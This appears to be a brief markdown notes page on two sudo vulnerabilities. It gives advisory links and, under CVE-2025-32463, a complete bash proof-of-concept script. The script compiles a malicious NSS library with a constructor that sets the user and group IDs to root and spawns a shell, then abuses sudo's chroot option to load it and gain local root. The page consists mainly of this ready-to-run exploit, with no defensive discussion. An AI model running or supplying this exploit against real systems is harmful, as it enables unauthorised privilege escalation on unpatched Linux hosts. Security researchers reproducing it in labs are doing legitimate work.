 # SUDO

1. CVE-2025-32463

https://habr.com/ru/news/924560/
https://security-tracker.debian.org/tracker/CVE-2025-32463
https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot


```sh
#!/bin/bash
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1
cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void woot(void) {  setreuid(0,0);  setregid(0,0);  chdir("/");  execl("/bin/bash", "/bin/bash", NULL);
}
EOF
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c
echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

2. CVE-2025-32462

https://www.stratascale.com/vulnerability-alert-CVE-2025-32462-sudo-host
https://security-tracker.debian.org/tracker/CVE-2025-32462